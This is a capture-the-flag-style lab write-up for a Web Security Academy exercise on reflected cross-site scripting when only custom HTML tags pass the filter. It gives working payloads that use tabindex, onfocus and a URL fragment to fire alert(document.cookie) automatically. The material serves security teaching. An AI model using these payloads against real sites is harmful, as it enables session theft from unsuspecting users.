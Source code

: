 # Reflected XSS into HTML context with all tags blocked except custom ones
# Objective
This lab blocks all HTML tags except custom ones.\
\
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Solution
## Analysis
If user clicks TAB different h1 block would be chosen (onfocus):
- `1 x TAB` - First Heading
- `2 x TAB` - Second Heading
- `3 x TAB` - Third Heading

```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3”> Heading3 - SomeText </h1>
```

3 times TAB = Third block would be chosen (`onfocus`) = `alert()` would be executed.
```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()"> Heading3 - SomeText </h1>
```

In this example function `alert()` could be triggered by searching for specified `id` after `#` in URL.
`http//:$ip#i3` - would cause payload to execute
```html
<h1 tabindex=”1” id="i1"> Heading1 - SomeText </h1>
<h1 tabindex=”2” id="i2"> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()" id="i3"> Heading3 - SomeText </h1>
```

## XSS Exploit

```
<customtag tabindex="1" onfocus="alert()" id="i1">
```
|![](Images/image-54.png)|
|:--:| 
| *Test of custom heading payload* |
|![](Images/image-55.png)|
| *Result* |

In order to make payload automatic `iframe` tag will have to be used.\

Final payload:

```js
<script>
location = 'https://0abc003b04aff4f380c7e45f008e0093.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

```
//URL-Decoded /?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```